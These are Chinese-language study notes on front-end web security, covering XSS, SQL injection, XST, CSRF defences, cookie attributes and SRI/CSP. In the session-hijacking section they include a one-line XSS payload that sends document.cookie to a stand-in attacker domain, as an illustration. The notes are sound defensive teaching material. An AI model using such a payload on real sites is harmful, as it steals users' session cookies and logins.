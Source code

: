# 前端安全性

腾讯大牛亲授漏洞防御(2-2 看完)

## xss 处理(Cross Site Scripting) 跨站脚本攻击

### scripting 能干吗？

1. 获取页面数据
2. 获取 cookies
3. 劫持前端逻辑
4. 发送请求
5. 偷取网站任意数据
6. 偷取用户资料
7. 偷取用户密码和登录态
8. 欺骗用户

### xss 攻击分类

1. 反射型(url 参数直接注入)
2. 存储型(存储到 DB 后读取时注入)

### xss 攻击注入点

浏览器只能拦截前两种

1. HTML 节点内容
2. HTML 属性
3. Javascript 代码
4. 富文本

本质是 HTML 注入,用户输入的数据被当成 Html 代码执行了

1. cookie 使用 HttpOnly 限制: 是的客户端的 js 代码不能读取到 cookie 值,但是不能防止从 HTTP header 里得到 cookie
2. 输出文本 HTML 转义:对网页上显示的文本内容使用 HtmlEncode 转义。js 函数：OWASP ESAPI 中的 encodeCharacter。其它的如 xmlencode、jsonencode 等转义函数。
3. 检查输入的 URL
4. 对传入 js 函数的文本类型参数值进行 javascript 转义

会话劫持和 XSS：
常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS (en-US) 攻击。
```js
// HttpOnly 类型的 Cookie 用于阻止了JavaScript 对其的访问性而能在一定程度上缓解此类攻击。
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

## SQL 注入

预防办法：数据与代码分离,即不用字符串拼凑 SQL 语句

## XST 处理

XST(跨站追踪)攻击，关闭 Web 服务器的 TRACE 方法

## CSRF 攻击的防御
- 令牌同步模式(tokie)
原理:令牌可以通过任何方式生成，只要确保随机性和唯一性.这样确保攻击者发送请求时候，由于没有该令牌而无法通过验证。
- 检查Referer字段
 因其完全依赖浏览器发送正确的Referer字段。虽然http协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其Referer字段的可能。
- 添加校验token
由于CSRF的本质在于攻击者欺骗用户去访问自己设置的地址;正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过CSRF传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验token的值为空或者错误，拒绝这个可疑请求。 
## HTTP 头注入

## Cookie 安全
标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端
HttpOnly属性可防止通过javascript 访问cookie值
SameSite 属性 允许服务器要求某个cookie在跨站请求时不会被发送,从而可以阻止跨站请求伪造攻击(CSRF)
1. SameSite=None:浏览器会在同站请求、跨站请求下继续发送cookies,不区分大小写
2. SameSite=Strict:浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）
3. SameSite=Lax:但只有当用户从外部站点导航到URL时才会发送。如 link 链接
```JS
Set-Cookie: key=value; SameSite=Strict;
Set-Cookie: sessionId=e8bb43229de9; Domain=foo.example.com
```
## 提高资源的安全性-SRI(Subresource Integrity) 与 CSP

- SRI
  SRI 是用来校验资源是否完整的安全方案。通过为页面引用的资源指定信息摘要，当资源被劫持篡改内容时，浏览器校验信息摘要不匹配，将会拒绝代码执行并抛出加载异常，保证加载资源的完整性。
  启用 SRI:使用 SRI 只需要给页面标签添加 integrity 属性，属性值为签名算法（sha256、sha384、sha512）和摘要签名内容组成，中间用 - 分隔。
  可以通过 webpack webpack-subresource-integrity 插件实现 integrity 实现添加过程。
  开启 SRI，浏览器会对相关资源进行 CORS 检查。至此，当资源内容被劫持篡改时，浏览器校验签名不匹配将使得异常资源不被执行，并触发加载失败。从而进入到资源加载失败的监控流程中，最终可以通过切换 CDN 域名或主域名进行加载重试，直到加载上正确资源，避免资源被劫持篡改内容后注入广告或白屏等情况。
  HTTPS 可以有效应对流量劫持的问题，SRI 在资源完整性再上一道屏障，CSP 也进行了其他方面的补充。“三驾马车” 为页面资源安全 “保驾护航”。
